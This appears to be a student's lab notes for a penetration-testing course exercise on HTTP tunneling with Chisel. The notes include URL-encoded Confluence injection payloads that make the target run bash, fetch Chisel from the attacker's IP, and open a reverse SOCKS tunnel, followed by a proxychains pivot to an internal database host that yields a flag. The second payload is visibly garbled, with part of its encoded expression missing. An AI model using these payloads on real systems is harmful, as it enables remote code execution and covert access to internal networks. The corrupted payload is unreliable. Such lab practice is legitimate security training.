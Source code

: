 
# HTTP Tunneling


2. Start VM Group 2. Download **/exercises/chisel_exercise_client** from CONFLUENCE01 (**192.168.239.63**). There's a server running on port 8008 on PGDATABASE01 (**10.4.239.215**).
   Set up a port forward using Chisel that allows you to run **chisel_exercise_client** against port 8008 on PGDATABASE01.

- Get file
```bash
wget http://192.168.239.63:8090/exercises/chisel_exercise_client
	--2024-06-25 19:04:17--  http://192.168.239.63:8090/exercises/chisel_exercise_client
	Connecting to 192.168.239.63:8090... connected.
	HTTP request sent, awaiting response... 200 
	Length: 1026416 (1002K)
	Saving to: ‘chisel_exercise_client’
	
	chisel_exercise_client  100%[=============================================================================================>] 1002K 1.42MB/s in 0.7s 
	
	2024-06-25 19:04:18 (1.42 MB/s) - ‘chisel_exercise_client’ saved [1026416/1026416]


chmod +x chisel_exercise_client
```

- Download compatible version of chisel, make executable, serve up
```bash
# Download v1.8.1 (working in ~/exercises/forward_tunnel dir)
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
	...
	chisel_1.8.1_linux_amd64.gz  100%[============================================================================>]   3.33M  --.-KB/s    in 0.1s
	...

# Unzip v1.8.1
gunzip chisel_1.8.1_linux_amd64.gz

# Rename
mv chisel_1.8.1_linux_amd64 chisel

# Make executable
chmod +x chisel

# Server
python3 -m http.server 80
```

- Set up Reverse Port Forward Server on Kali
```bash
chisel server --port 8080 --reverse
	2024/06/24 21:16:49 server: Reverse tunnelling enabled
	2024/06/24 21:16:49 server: Fingerprint eqnhO59Dz8gJ4de6b2Kvvnbv1X/QhAPgs8v4PsyBhck=
	2024/06/24 21:16:49 server: Listening on http://0.0.0.0:8080
```

- Send payload to CONFLUENCE01 to:
	1. Download chisel, Store it in /tmp/, & Make Executable
	2. Initiate a reverse port forward
```bash
# 1.
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.166/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

# 2.
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.g%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.166:8080%20R:socks%20%26%3Ert%28%29%22%29%7D/
```

- Verify via our chisel server
```bash
	2024/06/25 19:08:25 server: session#1: Client version (1.8.1) differs from server version (1.9.1-0kali1)
	2024/06/25 19:08:25 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
	- NOTE the tun is set to 127.0.0.1:1080

- Set proxychains config file
```bash
sudo vim /etc/proxychains4.conf

	socks5  127.0.0.1 1080
```
	- NOTE we set the same port as the Reverse Proxy seen above


- Run `chisel_exercise_client` via proxychains against PGDATABASE01
```bash
proxychains4 ./chisel_exercise_client -i 10.4.239.215 -p 8008
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	Connecting to 10.4.239.215:8008
	[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.4.239.215:8008  ...  OK
	Flag: "OS{bec052233ff6ca0ebd989fcde4d587ec}"
```



# DNS Tunneling

